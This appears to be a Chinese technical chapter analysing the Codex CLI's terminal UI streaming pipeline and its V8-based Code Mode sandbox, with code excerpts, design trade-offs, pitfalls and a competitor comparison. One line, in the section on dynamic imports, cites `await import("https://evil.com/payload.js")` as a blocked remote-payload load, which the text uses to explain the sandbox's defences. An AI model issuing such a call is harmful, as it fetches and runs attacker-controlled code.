- `push_source_chunk` 在每次扫描之后会发 `tracing::trace!`，包含字节数、行数、状态、耗时（`table_holdback.rs:L109-L114`）。生产环境的 trace 抽样能直接看到 holdback scanner 的工作日志，方便 debug "为什么我的表格一直卡在 tail 不落地"。

#### 输入侧：chat_composer 的层级状态机

输入侧比流式区还复杂。`ChatComposer` 内部至少有这些正交维度（来自 `chat_composer.rs:L347-L391`）：

1. **`DraftState`**：当前文本、cursor、text_elements、image attachments、pending_pastes。
2. **`PopupState`**：5 类 popup 互斥（None / Command / File / Skill / MentionV2）。
3. **`FooterState`**：底部提示栏的 mode（normal / esc-hint / plan-mode-nudge / shortcut-overlay）。
4. **`HistorySearchSession`**：Ctrl+R 反向搜索模式。
5. **`PasteBurst`**：非 bracketed paste 检测状态机。
6. **`VimNormalKeymap` 与 `EditorKeymap`**：vim normal/insert 切换。
7. **`is_task_running` + `queue_submissions`**：决定 Enter 是 submit 还是 queue。
8. **`input_enabled`**：read-only 模式开关。

这些维度的组合数学上是 5×4×2×3×3×2×2 = 720 种状态。Codex 并不是用一个大 enum 表达全部，而是用**正交字段 + 显式分派**的方式。`handle_key_event` 的入口（`chat_composer.rs:L1621-L1648`）就体现这一点：先看 `input_enabled` / `KeyEventKind::Release` / `history_search` / `history_search_previous_keys`，再走 popup 分派，最后才到默认 textarea 路径。每个分支只关心自己的两三个维度，其他维度通过字段访问。

这种"用结构体字段保持状态正交"的写法，让单个分支可以被独立修改而不破坏其他状态。代价是测试矩阵爆炸——`tui/src/bottom_pane/snapshots/` 目录下有几十个 `.snap` 快照文件覆盖各种组合。任何改动如果触发快照失败，就要逐一审查是合理 UI 变化还是回归。

#### Code Mode V8 的三层架构

Code Mode 的代码量比 TUI 小得多（`code-mode/src/` 总共约 3.8k 行），但抽象层数更深：`description` 负责"模型怎么读"，`runtime` 负责"V8 怎么跑"，`service` 负责"turn 怎么编排"。三者关系如下。

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

几个关键设计选择：

1. **每个 cell 一个 V8 isolate + 一个 OS 线程**（`runtime/mod.rs:L219-L229`），不复用。理由是 V8 isolate 之间不能共享 heap，且模型生成的脚本相互之间没有内存契约。**线程不是 tokio task** 是因为 V8 是同步阻塞的（`scope.perform_microtask_checkpoint()` 必须在原线程跑），放进 tokio reactor 会把整个 runtime 阻塞。
2. **stored_values 是 service 级 KV**（`service.rs:L50-L67`），用 `Mutex<HashMap>` 维护，每次 execute 进 isolate 时 clone 一份初值（`mod.rs:L307`），isolate 结束时把 writes 合并回 service（`service.rs:L561-L565`）。这样不同 cell 之间可以通过 `store(key, val)`/`load(key)` 异步交换数据，但相互不能直接读对方 heap。
3. **三种 outcome**：`Yielded` / `Terminated` / `Result`（`runtime/mod.rs:L105-L120`）。`Yielded` 表示 "脚本还在跑，但 yield_time_ms 到了，先把本批 content_items 交给模型"——模型据此决定下一步是 `wait` 续跑还是改主意 terminate。这就是 "exec/wait/cell_id" 三件套的根本理由。

#### Code Mode 会话生命周期

把 `execute → yield → wait → wait → result` 的完整生命周期拉一张时序图。

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

这张图揭示了 Code Mode 最反直觉的一处设计：**一次 `exec` 不一定意味着一次完整脚本执行**。`yield_time_ms` 可以让 isolate 提前打断、把至今产生的 `text()` 输出交给模型，模型决定要不要 `wait` 续跑——这是把"长任务"做成"可恢复短任务"的协议。`run_session_control` 用 `tokio::select!` 在 `event_rx`、`control_rx`、`yield_timer` 三路输入中调度（`service.rs:L449-L649`），是个典型的"无锁状态机"。

#### 两条轨道的关键设计取舍

把两条轨道的设计选择放在一张表里更直观。每一行都对应一组"为什么不那样做"的工程权衡。

| 关注点 | TUI 选择 | Code Mode 选择 | 替代方案及为何不采用 |
|---|---|---|---|
| 单位 | line（newline-gated） | cell（cell_id 命名） | char-level：能省 TTFB 但破坏 markdown 块；whole-turn：能省 chunking 但破坏 streaming UX |
| 隔离边界 | Rust 模块边界 + AppEvent 通道 | 一个 isolate + 一个 OS 线程 | 子进程：启动开销 ms 级；in-tokio-task：v8 同步阻塞会冻 reactor |
| 跨实例共享 | scrollback（终端本身） | stored_values（service-level KV） | 全局 static：竞争 + 跨 thread 隔离丧失 |
| 中断协议 | ^C 走 AppEvent + Tui::pause_events | terminate_execution + RuntimeCommand::Terminate 双轨 | 单 flag 轮询：脚本死循环时无效 |
| 资源回收 | drop 时 leave_alt_screen + restore | drop CodeModeTurnWorker 触发 shutdown_tx | 显式 RAII：Codex 已经用，Drop trait |
| 错误传播 | Result + tracing::warn | error_text: Option<String> | panic：Rust 默认 unwind，但 v8 与 unwind 边界不兼容 |
| 流控 | AdaptiveChunkingPolicy 两档 | yield_time_ms 显式契约 | back-pressure mpsc：会阻塞 producer，破坏 turn 驱动 |

注意这张表里有一行"错误传播"取了 `Option<String>` 而不是真正的 `Result<T, E>`。原因是 Code Mode 必须把 error_text 转成 `RuntimeResponse::Result { error_text }` 经过模型再读一遍——它本质上不是 Rust 内部错误，而是模型可见的 protocol-level 错误。把它建模成 String 而不是 Error trait，是有意识的设计选择。

### 2.4 实现细节关键点

#### 关键路径 A：StreamCore::push_delta（约 16 行的核心收敛点）

`tui/src/streaming/controller.rs:L127-L143`：

```rust
fn push_delta(&mut self, delta: &str) -> bool {
    if !delta.is_empty() {
        self.state.has_seen_delta = true;
    }
    self.state.collector.push_delta(delta);

    let mut enqueued = false;
    if delta.contains('\n')
        && let Some(committed_source) = self.state.collector.commit_complete_source()
    {
        self.raw_source.push_str(&committed_source);
        self.holdback_scanner.push_source_chunk(&committed_source);
        self.recompute_streaming_render();
        enqueued = self.sync_stable_queue();
    }
    enqueued
}
```

这是流式管线的"心脏"。要点：

- **gate 是 `delta.contains('\n')`**：哪怕收了 200 char 但没有 `\n`，也不会触发 commit。
- **enqueue 之前会重新 render 整个 raw_source**（`recompute_streaming_render`），不是增量 patch。理由是 markdown 是非局部的：第 5 行多打一个 `>` 可能让前 4 行从 paragraph 变成 blockquote。
- **holdback_scanner 是 incremental 的**（只往前看一行），所以"render 整段"和"扫描增量"在复杂度上各占一边：render 是 `O(全文)`，扫描是 `O(增量)`。

#### 关键路径 B：AdaptiveChunkingPolicy::decide（约 30 行的两档变速箱）

`tui/src/streaming/chunking.rs:L180-L211`：核心逻辑就是"按 mode 分支 + 调用对应转移函数 + 生成 DrainPlan"。下面这张表把它的常量与行为整理出来：

| 常量 | 值 | 作用 |
|---|---|---|
| `ENTER_QUEUE_DEPTH_LINES` | 8 | 队列深度 ≥ 8 即进 CatchUp |
| `ENTER_OLDEST_AGE` | 120ms | 最老入队 ≥ 120ms 即进 CatchUp |
| `EXIT_QUEUE_DEPTH_LINES` | 2 | 退出前队列必须 ≤ 2 |
| `EXIT_OLDEST_AGE` | 40ms | 退出前最老入队必须 ≤ 40ms |
| `EXIT_HOLD` | 250ms | 进入退出条件后还要稳定 250ms |
| `REENTER_CATCH_UP_HOLD` | 250ms | 退出后 250ms 内不再进 CatchUp |
| `SEVERE_QUEUE_DEPTH_LINES` | 64 | 队列 ≥ 64 即认定严重 |
| `SEVERE_OLDEST_AGE` | 300ms | 最老入队 ≥ 300ms 即认定严重 |

注意 `SEVERE_*` 阈值的语义：**严重 backlog 可以无视 re-entry hold 重新进 CatchUp**（`chunking.rs:L216-L227`）。这是为了避免"刚 drain 完一波又来一波大潮，因为 hold 锁住而堆积"。

#### 关键路径 C：CodeModeService::start_session（会话注册的原子性）

`code-mode/src/service.rs:L127-L176`：

```rust
let (runtime_tx, runtime_control_tx, runtime_terminate_handle) = {
    let mut sessions = self.inner.sessions.lock().await;
    if sessions.contains_key(&cell_id) {
        return Err(format!("exec cell {cell_id} already exists"));
    }
    let (runtime_tx, runtime_control_tx, runtime_terminate_handle) =
        spawn_runtime(stored_values, request, event_tx, pending_mode)?;
    sessions.insert(cell_id.clone(), SessionHandle { ... });
    (runtime_tx, runtime_control_tx, runtime_terminate_handle)
};
```

注释说得很清楚（`service.rs:L147-L150`）：*"Keep the session registry locked through insertion so a caller-owned cell id cannot race with another execute and replace a live runtime."* `cell_id` 是 caller-owned 的（caller 用 `allocate_cell_id()` 先拿，再传给 `ExecuteRequest`，见 `service.rs:L80-L91`），所以理论上可能"两个并发 execute 用同一个 cell_id"。Codex 用整段 critical section 防止这种竞态——一旦 spawn 成功，sessions HashMap 已经持有 handle；其他人只能拿到 `already exists`。

#### 关键路径 D：run_session_control 的 4 路 select

`code-mode/src/service.rs:L449-L649` 用 `tokio::select!` 同时监听：

1. `event_rx`：来自 V8 线程的 `RuntimeEvent`（Started/Pending/ContentItem/YieldRequested/ToolCall/Notify/Result）。
2. `control_rx`：来自外部 wait/terminate 的 `SessionControlCommand`。
3. `yield_timer`：可选的 `tokio::time::sleep`，到时间就触发 yield。

外加一个 `runtime_closed` flag 防止 event_rx 关闭后再尝试 recv。这种 4 路 select 在 Rust 异步社区是个相对少见的模式，因为 select 的 cancellation safety 要求每条路径都是 cancel-safe；Codex 通过把 mpsc receiver、控制 receiver 都收在变量里、`yield_timer` 用 `Pin<Box<Sleep>>` 显式绑定，确保下次 poll 时不会丢事件。

具体说，`yield_timer: Option<Pin<Box<tokio::time::Sleep>>>`（`service.rs:L447`）这个类型选择很有讲究：`Sleep` 不是 `Unpin` 的，必须 `Pin<Box<_>>` 才能在 select 多次 poll 中持续推进；`Option` 用来表达"当前没有 yield timer"的语义（execute_to_pending 模式或刚 reset）；每次 yield 触发后 `yield_timer = None` 显式清零。如果用 `tokio::time::Sleep` 直接放进 `select!`，会因为 Future 不能跨 await 移动而编译失败——这是个新手 Rust 异步开发者容易栽坑的位置。

对比一下 `tokio::select!` 在 4 路里的 cancellation safety 矩阵：

| 分支 | Future 类型 | cancel-safe? | 备注 |
|---|---|---|---|
| `event_rx.recv()` | `tokio::sync::mpsc::UnboundedReceiver::recv` | yes | mpsc::recv 是显式 cancel-safe，文档保证 |
| `control_rx.recv()` | 同上 | yes | 同样保证 |
| `yield_timer.as_mut().await` | `Pin<&mut Sleep>` | yes | `Sleep` 在 poll 后保留剩余时长，cancel 后下次接着等 |
| `std::future::pending` | `Pending<T>` | yes | 永远 pending，cancel 无影响 |

四条分支全部 cancel-safe，这是 `tokio::select!` 唯一合法的配置——任何一条不 safe，丢事件就成了系统性 bug。

#### 关键路径 E：V8 全局函数白名单 vs 黑名单

`code-mode/src/runtime/globals.rs:L13-L43`：先 `delete_global` 掉 `console / Atomics / SharedArrayBuffer / WebAssembly`，再 set 自己提供的 9 个 helper：`tools / ALL_TOOLS / clearTimeout / setTimeout / text / image / store / load / notify / yield_control / exit`。

注意三点：

- **`console` 是被显式删除的**：Cloudflare Codemode 把 console.log 当输出捕获，Codex 反其道而行——脚本要 emit 文本必须显式调用 `text("...")`。这样可以保证输出顺序、token 计数、image/text 类型都精确受控。
- **`WebAssembly` 也禁了**：意味着模型不能加载额外 wasm 模块绕过沙箱。
- **`setTimeout` 是手写的**（`runtime/timers.rs:L12-L45`）：直接 `thread::spawn` 一个 std::thread 睡眠后再发 `RuntimeCommand::TimeoutFired`——一个 timer 一个线程。这种实现在生产 JS runtime 里少见，但对 Codex 这种"每个 cell 总共可能就调几次 setTimeout、且每个 cell 整体生命周期被 cell_id 限定"的场景够用。

#### 关键路径 F：normalize_code_mode_identifier 与 JavaScript 标识符兼容

`description.rs:L323-L345`：MCP 工具名常常包含 `:`、`/`、`-` 等字符（比如 `mcp::server::tool` 或 `gh/pr/create`），但这些字符不能直接做 JavaScript 的 property name（实际上可以做 `tools["mcp::server::tool"]`，但 `tools.mcp::server::tool` 不合法）。Codex 的策略是：

```rust
pub fn normalize_code_mode_identifier(tool_key: &str) -> String {
    let mut identifier = String::new();
    for (index, ch) in tool_key.chars().enumerate() {
        let is_valid = if index == 0 {
            ch == '_' || ch == '$' || ch.is_ascii_alphabetic()
        } else {
            ch == '_' || ch == '$' || ch.is_ascii_alphanumeric()
        };
        if is_valid { identifier.push(ch); } else { identifier.push('_'); }
    }
    if identifier.is_empty() { "_".to_string() } else { identifier }
}
```

也就是说 `mcp::server::tool` 会被规范化为 `mcp__server__tool`，然后通过 `tools.mcp__server__tool(...)` 调用。`description.rs` 在生成 `### \`global_name\` (\`raw_name\`)` 这种 heading 时也会把两者都展示给模型（`L433-L439`），让模型理解 mapping 关系。

这套机制有个隐含约束：**多个原始工具名可能映射到同一个规范化标识符**（比如 `foo:bar` 与 `foo_bar` 都会变成 `foo_bar`）。`description.rs` 没有显式的去重逻辑，依赖上层 `tools` crate 在收集 `EnabledToolMetadata` 时保证名字唯一。一旦原始名空间允许冲突，模型会拿到含糊的 binding——这是一个还没在源码层兜底的边界。

#### 关键路径 G：render_json_schema_to_typescript 的"够用即可"哲学

`description.rs:L441-L593` 把 JSON Schema 翻译成 TypeScript declaration。这套翻译器只支持以下几类：

- `type: string/number/integer/boolean/null` → TS primitive
- `type: array` + `items` → `Array<T>`
- `type: object` + `properties` + `required` → `{ k: T; ... }`
- `enum / const` → 联合字面量
- `anyOf / oneOf` → `|` 联合
- `allOf` → `&` 交集
- `additionalProperties` → 索引签名

不支持的至少包括：`$ref` / `definitions` / `if-then-else` / `dependencies` / `patternProperties` / `format`。遇到不支持的字段直接返回 `"unknown"`，模型读到的类型就是 `any`。

这是个有意识的"渐进式翻译器"。Codex 没有把 `$ref` 解析当成阻塞需求，因为绝大多数 MCP 工具的 schema 是扁平的；万一遇到复杂 schema，模型看 `unknown` 也能调对（只是看不到类型提示）。但这也意味着 MCP 工具如果想给 Code Mode 用，schema 写得越扁平越好。

#### 关键路径 H：dynamic_import_callback 的"禁止动态导入"

`runtime/module_loader.rs` 第 49 行附近设置了 `set_host_import_module_dynamically_callback`，行为是直接 reject。这意味着模型不能写 `await import("https://evil.com/payload.js")`——动态 import 在 Code Mode 里是死路径。结合前面 `delete_global` 掉 `WebAssembly`，整个 isolate 在"加载外部代码"这条线上是彻底关死的。模型可写的代码必须是 inline source，能调用的工具必须是 enabled_tools 里的——这两条限制叠加形成了 Code Mode 的安全闭环。

#### 关键路径 I：insert_history 的 ANSI 反向滚屏

`insert_history.rs:L105-L120` 是整段 TUI 与终端最直接的交互点。简化逻辑是：

1. 计算 wrapped_lines（用 adaptive_wrap_line 把 ratatui Line 折成 viewport 宽度内的若干行）。
2. 如果 viewport 没顶到屏幕底部，先用 `SetScrollRegion(top..bottom)` + `Print("\x1bM")` 把 inline viewport 上方的 cursor 反向滚 N 次，腾出 N 行空白。
3. 再用 `MoveTo` + 写入每行的 ANSI escape sequence。
4. 写完后 `RestorePosition` 把 cursor 复位，让下一帧 ratatui 能正常画 inline 区域。

这里用到的 `\x1bM` 是 DEC 标准的 reverse index（RI），不是常见的换行。普通 `\n` 是把光标移到下一行（向下滚屏），`\x1bM` 是向上滚屏；`SetScrollRegion` 限定的滚动区域只在 inline viewport 上方，确保 inline 区域本身不动。结合 `Tui::draw` 里 `terminal.backend_mut().scroll_region_up(...)` 的 viewport 扩展逻辑（`tui.rs:L849-L857`），整个屏幕的滚动是"分区域 + 反向"的——这个技巧在普通 TUI 应用里很少见。

#### 关键路径 J：V8 platform 一次性初始化

`runtime/mod.rs:L267-L281` 用 `static PLATFORM: OnceLock<Result<v8::SharedRef<v8::Platform>, String>>` 保证整个进程只 init 一次：

```rust
fn initialize_v8() -> Result<(), String> {
    static PLATFORM: OnceLock<Result<v8::SharedRef<v8::Platform>, String>> = OnceLock::new();
    match PLATFORM.get_or_init(|| {
        v8::icu::set_common_data_77(deno_core_icudata::ICU_DATA)
            .map_err(|error_code| format!("failed to initialize ICU data: {error_code}"))?;
        let platform = v8::new_default_platform(0, false).make_shared();
        v8::V8::initialize_platform(platform.clone());
        v8::V8::initialize();
        Ok(platform)
    }) { ... }
}
```

`v8::new_default_platform(0, false)` 第一个 0 表示自动 detect thread pool size，第二个 false 表示不预分配 idle task；`set_common_data_77` 是 ICU 77 的兼容头，绑定的是 `deno_core_icudata` 提供的预编译 ICU 数据。这个一次性初始化路径解释了为什么 `js_repl` 时代是 spawn 子进程而现在能 in-process：把 v8 platform 绑死在主进程，但 isolate 仍然是 per-cell——前者成本一次，后者成本可重复 spawn 与 terminate。

#### 关键路径 K：Frame requester 的去抖

`tui.rs:L532-L533` 把 `FrameRequester` 建在一个 `broadcast::Sender<()>` 上。任何想触发重绘的代码（Composer 改变文本、Stream 提交一行、AppEvent 进来）都可以 `frame_requester.schedule_frame()`。具体的频率控制在 `frame_rate_limiter` 子模块（`tui.rs:L54`），有 `TARGET_FRAME_INTERVAL = MIN_FRAME_INTERVAL` 的常量约束（`tui.rs:L62`）。这是一种典型的 "request animation frame" 模式：调用者不直接驱动 draw，而是声明"我希望被画"，再由 frame limiter 决定真正何时画。

这套机制能让大量 push 事件合并为单次 draw——比如流式 controller 一次 commit_tick drain 了 10 行，10 次 schedule_frame 只触发 1 次 draw。如果没有这层去抖，60fps 的目标在终端里几乎不可能持续达到。

#### 关键路径 L：normalize_output_image 与 MCP image 的桥接

`code-mode/src/runtime/callbacks.rs:L99-L130` 的 `image_callback` 负责把模型在 JS 里调 `image("https://...", "high")` 或 `image(result.content[0])` 翻译为 `FunctionCallOutputContentItem::InputImage`。这里两件事值得注意：

第一，`image_callback` 支持的输入有三种形态：

- 纯字符串 URL（HTTPS 或 base64 `data:` URL）；
- 单个对象 `{ image_url: "...", detail?: "high"|"original" }`；
- 一个完整的 MCP `ImageContent` block（`{ type: "image", data: base64, mimeType: "image/png", _meta?: { "codex/imageDetail": "..." }}`）。

第二，detail 参数有两层 fallback：函数第二个参数 `detail` 优先，然后是输入对象内嵌的 `detail` 字段，然后是 MCP `_meta["codex/imageDetail"]`，最后是 `DEFAULT_IMAGE_DETAIL = ImageDetail::High`（`response.rs:L11`）。这种 multi-source 兜底是为了让模型既能直接传 MCP 工具返回的 image block（`image(result.content[0])`），也能手动覆盖 detail——同一个 API 同时支持新手和高级用法。

这个 API 设计也反向解释了 `description.rs` 那段 MCP TypeScript preamble 为什么要把 `ImageContent` 类型完整定义出来（`description.rs:L75-L82`）：模型直接拿到 MCP image block 之后，可以用 `image()` 透传，不需要先解构再重组。这种"零成本中转"对模型省 token、降出错率都有好处。

#### 关键路径 M：app_server_session 与 TUI 的边界

`tui/src/app_server_session.rs` 是 TUI 与 app-server JSON-RPC 协议层（前一章 Ch21 主题）的对接面。它把 `AppServerClient` 包成 `AppServerSession`，提供一组 `bootstrap / resume_thread / start_thread / send_user_turn / approve_*` 等 typed 方法（约 2500 行）。它的存在意义是：

- **类型边界**：让 ChatWidget 和 App 都不直接持有 `AppServerClient`，而是通过 `AppServerSession` 调用——任何协议字段变更只需要修改 session 这一层。
- **错误归一**：所有 RPC 错误都被翻译成 `Result<R, TypedRequestError>` 或 `JSONRPCErrorError`，TUI 上层不需要懂 transport 细节。
- **事件订阅**：`AppServerEvent` 流被 session 转成 AppEvent，统一进入主循环。

这一层是 TUI 跟 Codex 后端解耦的关键。回想 Ch21 强调过 v1 已冻结、v2 才是活的——`app_server_session.rs` 引用的 `codex_app_server_protocol::*` 全部走 v2，意味着 TUI 是 v2 协议的"第一公民"，VS Code/JetBrains 扩展跟 TUI 在协议契约上是同等地位。这也解释了一个貌似奇怪的现象：为什么本地 TUI 跑得起来时，远程 IDE 集成几乎一定也能跑——它们走的是同一条 wire-level contract。

### 2.5 易错点和注意事项

#### TUI 侧

1. **`raw_source` 必须 append-only**。`StreamCore` 注释（`controller.rs:L33-L34`）特别强调；如果中间替换了某段已 push 的 source，前面 emitted 的 stable lines 就跟当前 rendered_lines 对不上，会出现"重影"或"漏行"。
2. **`MarkdownStreamCollector` 不要跨 cwd 复用**。`markdown_stream.rs` 的注释明确说："The same `cwd` should be reused for the entire stream lifecycle; mixing different working directories within one stream would make the same link render with different path prefixes across incremental commits." 如果用户中途切了 `/cd`，必须 `reset()` 整个 stream。
3. **table holdback 只覆盖 markdown context**。`table_holdback.rs:L124-L128` 显式跳过 `FenceKind::Other`（即非 markdown code fence 比如 `~~~bash`）；如果模型把 markdown 表格嵌进非 markdown fence，holdback 不会生效，可能看到表格抖动。
4. **`insert_history_lines` 的 wrap_policy 是有泄漏行为的**：`PreWrap` 对纯 URL 行不做硬换行（`insert_history.rs:L86-L97`），让终端自己 char-wrap；但如果 URL 后面紧跟非 URL 文本（`mixed`），又会落回 adaptive wrap。这导致同一行只要混入一个标点，wrap 策略就翻转。
5. **`Tui::draw` 在 alt-screen 与 inline 之间切换时要清屏**（`tui.rs:L859-L863`，`clear_for_viewport_change`）。如果忘了，旧 viewport 的内容会以"幽灵字符"形式透出来——这在 vscode 集成终端上特别明显。
6. **`chat_composer.rs` 单文件 10929 行**意味着它内部状态非常多。常见错误是改了 popup 路由但忘了在 `sync_popups`（`chat_composer.rs:L3626`）里同步状态，导致 popup 视觉显示与逻辑判断错位。
7. **`PasteBurst` 对 ASCII 与非 ASCII 行为不同**。注释（`chat_composer.rs:L101-L107`）说得很直白：ASCII 第一字符会被 hold 住做 paste 判别，非 ASCII（IME）则不 hold——前者牺牲一点延迟换不闪烁，后者牺牲一点 paste 检测精度换 IME 体验。修改这部分极易破坏中文/日文输入。

#### Code Mode 侧

1. **`pragma` 必须有 source body**。`description.rs:L183-L188`：如果只有一行 `// @exec: {...}` 而没有后续 JS，会报 *"exec pragma must be followed by JavaScript source on subsequent lines"*。模型如果只写注释就提交，会直接被工具层挡回。
2. **`yield_time_ms / max_output_tokens` 必须是 non-negative safe integer**。`description.rs:L222-L238` 用 `MAX_JS_SAFE_INTEGER = 2^53 - 1` 检查。原因是这两个数最终会以 JS Number 形式呈现给模型，超过 53 位会失精度。
3. **`tools.foo` 的参数必须是 string 或 object**。`description.rs` 的 EXEC_DESCRIPTION 显式说明 *"Nested tool methods take either a string or an object as their input argument."* 如果模型写 `tools.foo([1,2])`，参数会被 v8 序列化为 JSON array，但 host 端的 schema 校验可能拒绝。
4. **`exit()` 只能从同步代码里调**。它通过 throw `EXIT_SENTINEL`（`runtime/mod.rs:L26`）让 module evaluate 提前结束；如果在 `setTimeout` callback 里调，会被 callback 自己的 try/catch 吞掉。
5. **`store` / `load` 是 best-effort 跨 cell 共享**。stored_values 是按 `execute` 入参 clone 一次（`runtime/mod.rs:L307`），所以一个长跑 cell 在中途看不到另一个 cell 的 store 更新——它看到的永远是开始 execute 那一刻的快照。
6. **`Terminate` 与 `terminate_execution` 的双轨**。`run_session_control` 在收到 `SessionControlCommand::Terminate` 时既会 send `RuntimeCommand::Terminate`（软终止，等下一个命令循环），又会 `runtime_terminate_handle.terminate_execution()`（硬中断 isolate）。硬中断是 V8 提供的 race-safe API（`mod.rs:L491-L505` 测试覆盖了 `while(true){}` 死循环也能 terminate）。如果用户层只走软终止，会等不到响应。
7. **`PendingRuntimeMode::PauseUntilResumed` 不能用 `execute()`**。`execute()` 强制走 `Continue` mode（`service.rs:L100`），`execute_to_pending()` 才走 `PauseUntilResumed`。这两条路径在 turn driver 里对应不同的 nested tool-call 串行/并行策略，混淆会导致死锁。
8. **`normalize_code_mode_identifier` 不防重名**。两个原始工具名碰巧映射到同一个 JS 标识符时，后注册的会覆盖前一个 `tools` 对象 entry（`globals.rs:L55-L60` 直接 set，不查存在）。host 应该在上层避免这种情况。
9. **`render_json_schema_to_typescript` 对 `additionalProperties: false` 没有显式处理**：会被翻译成不带索引签名的 object，TS 类型上等价于 closed type，但模型可能误以为可以加自定义字段。这套翻译器不是严格的 schema-to-ts 编译器。
10. **`dynamic_import_callback` 是静默 reject**：模型如果不慎写 `await import(...)`，会拿到一个 reject 后的 promise，需要 try/catch 才能看到错误信息。Codex 没有给一个明确的 "dynamic import is disabled" 提示，这对 debug 不友好。
11. **`run_session_control` 的 yield_timer 与 pending_result 互动微妙**：`SessionControlCommand::Poll` 进来时如果 `pending_result.is_some()`，会立即把结果送回去并 break loop（`service.rs:L590-L593`），不再走 yield_timer。这意味着 wait 在 cell 已完成的情况下不重置 timer——是正确行为，但容易在 review 时被误判为"漏掉 timer reset"。
12. **`PendingRuntimeMode::Continue` 下 `next_runtime_command` 会 block on `command_rx.recv()`**（`mod.rs:L411-L412`）。这是为了让 V8 线程在 await tool response 时彻底阻塞、不消耗 CPU；但代价是如果 turn driver 忘了 send `ToolResponse` 或 `ToolError`，V8 线程会永远卡住直到 channel 被 drop。修改 host 实现时务必保证这条 contract。

#### 一个具体的端到端例子：模型输出 markdown 表格

假设模型回复内容是：

```
你的工程依赖是：

| 包 | 版本 | 用途 |
|---|---|---|
| ratatui | 0.29 | TUI 渲染 |
| crossterm | 0.27 | 终端控制 |
| rusty_v8 | 0.105 | Code Mode |

请确认后我继续操作。
```

它经历的链路是：

1. 模型 token by token 吐 char delta 进 `StreamController::push_delta`。
2. 每来一个 `\n`，`MarkdownStreamCollector::commit_complete_source` 提交一行 source 进 `raw_source`。
3. `TableHoldbackScanner` 在看到 `| 包 | 版本 | 用途 |` 后状态变为 `PendingHeader`；下一行 `|---|---|---|` 让它变为 `Confirmed { table_start }`。
4. `recompute_streaming_render` 重新跑 `pulldown-cmark` + `markdown_render::render_table_lines`，但 `sync_stable_queue` 只把 `table_start` 之前的内容（"你的工程依赖是："这一行）放进 stable queue。
5. 后续的 table body 行继续来——每来一行，整张表会重新 render 一遍（列宽可能变化），但都还在 mutable tail。
6. 表格之后那行"请确认后我继续操作。"也被强制留在 tail（因为 `Confirmed` 永不回退）。
7. 模型流 finalize 时，`finalize_remaining` 把整段 tail 一次性 render 并 emit 进 history。
8. 此时 `insert_history_lines` 用 ANSI 反向滚屏把整个表格 + 后续段落写进终端 scrollback；ratatui 的 inline viewport 同时也被 `Tui::draw` 重绘。

整条链路在用户看来是这样的：先看到"你的工程依赖是："出现在终端历史里；然后空出一块 mutable 区域，里面表格随着模型 token 增加而重新渲染（列宽可能跳动）；模型说完最后一个字符的瞬间，整张表稳定显示并落入历史。这种"先骨架再表格再 commit"的体验，跟 Claude Code 直接 60fps 双缓冲 char-level 重画整段表格的体验在视觉上其实非常接近——但底层机制完全不同。

#### 一个 Code Mode 例子：批量读多个文件

假设模型想读 5 个文件并合并结果。普通 JSON tool calling 路径是 5 个回合（每个回合一个 tool_call + tool_result）；用 Code Mode 模型只需要 1 次 exec：

```javascript
// @exec: { "yield_time_ms": 5000, "max_output_tokens": 4000 }
const paths = ["src/a.rs", "src/b.rs", "src/c.rs", "src/d.rs", "src/e.rs"];
const out = [];
for (const p of paths) {
  const res = await tools.read_file({ path: p });
  out.push(`### ${p}\n\n${res.content}\n`);
}
text(out.join("\n"));
```

执行链路：

1. turn driver 把这段 JS 通过 `ExecuteRequest` 送进 `CodeModeService::execute`。
2. `spawn_runtime` 启动 V8 isolate，evaluate module，遇到第一个 `await tools.read_file(...)` 时通过 `tool_callback` 创建 PromiseResolver 并发 `RuntimeEvent::ToolCall` 给 service。
3. `run_session_control` 把 ToolCall 包成 `TurnMessage::ToolCall` 发给 `turn_message_tx`。
4. `CodeModeTurnWorker` 接到消息，调 `host.invoke_tool(invocation)`——这里 host 就是 turn driver 注入的实现，会真正去读文件。
5. host 把结果或错误通过 `RuntimeCommand::ToolResponse / ToolError` 发回 V8 线程。
6. V8 线程 resolve PromiseResolver，JS 的 `await` 继续往下走，进入下一个循环。
7. 5 个文件全部读完后，`text(out.join("\n"))` 把拼接结果发为 `RuntimeEvent::ContentItem`。
8. module 自然结束，`RuntimeEvent::Result` 关闭 cell；`RuntimeResponse::Result` 返回给 turn driver；turn driver 把整段文本作为 `tool_output` 接回 prompt。

整个过程对模型来说是"一次 tool call → 一次 tool output"，但中间 host 实际执行了 5 次 read_file。这就是 Code Mode 省 turn 的具体表现：原本需要 5 个 turn 才能完成的串行工具调用，被压缩成单个 turn 内的多次 host 调用。代价是模型必须正确写出循环——而这正是 LLM 比写 JSON 更擅长的事情。

### 2.6 竞品对比

下面这张表把同类系统的 TUI 与 Code Mode 类能力放在一起。**对竞品的描述基于公开博客与文档，未必能在源码层完全验证，因此采用"可能/据称"等审慎口径。**

| 维度 | Codex | Claude Code | Aider | Goose | Continue |
|---|---|---|---|---|---|
| TUI 技术栈 | Rust + Ratatui 0.29 + Crossterm | Node + 深度 fork 的 Ink + Yoga + React 19 ConcurrentRoot（据社区分析） | Python + Rich/Textual（据公开仓库） | Rust + Goose UI 是 web，CLI 走 textwrap | VS Code 扩展，无独立 TUI |
| 流式渲染粒度 | newline-gated + adaptive chunking | char-level + double-buffered packed Int32Array（据社区分析） | line-level（Rich Markdown live） | line-level（基本 print） | VS Code 原生 |
| 表格流式 | TableHoldbackScanner 强制 tail | 据社区分析也走"完整 markdown 重渲染" | 不专门处理 | 不处理 | n/a |
| Code execution 工具 | exec/wait + V8 isolate（in-process） | bash + Run code（外部 spawn）；Skills 是 host 工具非 sandbox 脚本 | 不内置脚本 sandbox，建议用 shell tool | 通过 extension（Python/JS shell） | 无 sandbox |
| 沙箱隔离 | V8 isolate + 删 fs/network/console | Skills 是 host context，无 JS sandbox | 无 | 通过 OS 沙箱（macOS Sandbox） | 无 |
| KV 跨 cell 共享 | store/load + stored_values | 无对应原语 | 无 | 无 | 无 |
| Yield/Wait 协议 | yield_time_ms + cell_id 续跑 | 长任务靠后台 bash | 无（短任务模型） | 无（短任务模型） | 无 |
| 输入侧 popup 数量 | 5 类（slash/file/skill/mention/shortcut） | 类似 5 类（据公开截图） | 较少 | 较少 | VS Code 集成 |

几个关键观察：

